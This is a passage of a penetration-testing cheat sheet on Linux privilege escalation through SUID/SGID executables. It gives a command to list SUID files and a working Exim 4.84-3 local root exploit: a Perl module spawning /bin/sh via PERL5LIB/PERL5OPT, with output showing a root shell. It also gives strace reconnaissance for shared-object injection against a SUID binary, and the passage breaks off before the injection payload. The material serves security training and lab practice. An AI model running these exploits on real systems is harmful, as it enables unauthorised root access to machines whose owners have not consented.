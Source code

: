 

***`SUID / SGID Executables - Known Exploits`***

[+] Find all SUID/SGID <br>

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

```

[+] vulnerable: Exim <br>
[+]Link: [Exim 4.84-3 - Local Privilege Escalation - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/39535)<br>

```bash
nano /tmp/root.pm

cat /tmp/root.pm
package root;
use strict;
use warnings;

system("/bin/sh");



user@debian:~$ PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)

```



***`SUID / SGID Executables - Shared Object Injection`***

shared object could be detect by using strace or ltrace or strings to find loaded binary that doest use absolute path in system api, in some cases you could exploit missing library that binary called during execution.

use strace to monitor binary.

```bash
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
